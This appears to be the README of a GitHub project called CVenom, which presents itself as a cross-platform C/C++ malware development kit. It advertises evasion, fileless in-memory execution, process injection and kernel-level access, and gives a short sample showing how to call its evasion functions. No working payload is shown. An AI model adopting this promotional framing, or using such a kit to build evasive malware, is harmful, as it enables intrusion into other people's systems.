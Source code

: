 # CVenom
<pre>
Where The Simplicity Become Dangerous ...
         A True Cross-Platform Malware Development Kit
</pre>

<p>C/C++ Are Absolutely The Best Languages To Develop Malwares, Advanced, And Undetectable, Scary Hardware And L2 I/O Access, As You Know, C/C++ Codes, API Calls, Library Calls, System Calls Differ Between Linux And Windows, So, <strong>That's Why We Created CVenom</strong></p>

<h1>Introducing CVenom</h1>
We've All Heard About, Or Even Used Software Development Kits, Like JDK (Java Development Kit), QT (Desktop Apps Development Kit), [...], But, Have You Ever Heard About A Malware Development Kit?! Firstly You Should Understand That You Can't Code a Malware Using Python, Java, Golang, C#, [...], There Is a Huge Amount Of Python Modules Used in Hacking, Like The Keylogger Module, Scapy, [...], But Unfortunately, All Of Those Modules Will Not Help in malware Development, Even if you compiled the python code (Including Java, C#, Go...)
<br><br>
<h3>When I Said Malware, I Didn't Meant A Simple Reverse Shell That You Can Code it with 3 Lines of Python Code, I Meant Malware With Hardware Access, Low-Level Kernel-Level And Hardware-Level Input/Output Control And Manipulation API, Evading in The Dark Corner Of the Operating System, Working Far Away From User-Level API, High-Speed Data Processing Encryption And Decryption, Intelligent Execution-Flow Redirection (Supports Redirecting Execution Into the Stack), Custom Evasion Functionality, Hardware Bombing, Intelligent Process Injector, Customized Compilation Process And A Lot More[...], All Of Those Stuffs, Can Be Used Under The OOP Concept, As Follow</h3>
<pre>
         #include <CVenom.h>
         
         #include <RuntimeTools.h>
         #include <EvasionTools.h>
         
         
         
         int main(int argc, char** argv){
                  cvinit(argc, argv);                                   // Initializing CVenom, Should Be Always Inserted in The Start of the Main Function With Argc and Argv
                  
                  RuntimeTools      Runner;
                  EvasionTools      Evador;
                  
                  Runner.Background();                                  // Used To Move Execution Into Background;
                  Evador.HandleAllSignals( Evador.ChangePID );          // Used To Change Current Procces PID If Any Signal Was Invoked By The User Or The Kernel
                  Evador.MoveIntoMemory();                              // Used To Move The Malware From The Hard Disk To The RAM (Used To Create Fileless Malwares).
                  Runner.Sleep(5);                                      // Pause The Malware For 5 Seconds
                  Evador.MoveBackToDisk();                              // Move The Malware From Memory Back To Disk (Not Required Because The cvexit() Function is going to                                                                                Check if the malware is On the disk Or Not, Then Move It Back From Memory Into Disk.)
                  /*
                  
                  Some Codes ...
                  Some Other Codes...
                  ...
                  */
                  
                  cvexit(0);                                            // Freeing CVenom's Memory, Should Be Always Inserted in the end of the main function with the exit code.
         }
</pre>
<br><br>
<p>C/C++ Are Absolutely The Best Languages To Develop Malwares, Advanced, And Undetectable, Scary Hardware And L2 I/O Access, As You Know, C/C++ Codes, API Calls, Library Calls, System Calls Differ Between Linux And Windows, So, <strong>Welcome To CVenom</strong>.</p>
<h2>Cross-Platform OOP Based Malware Development</h2>
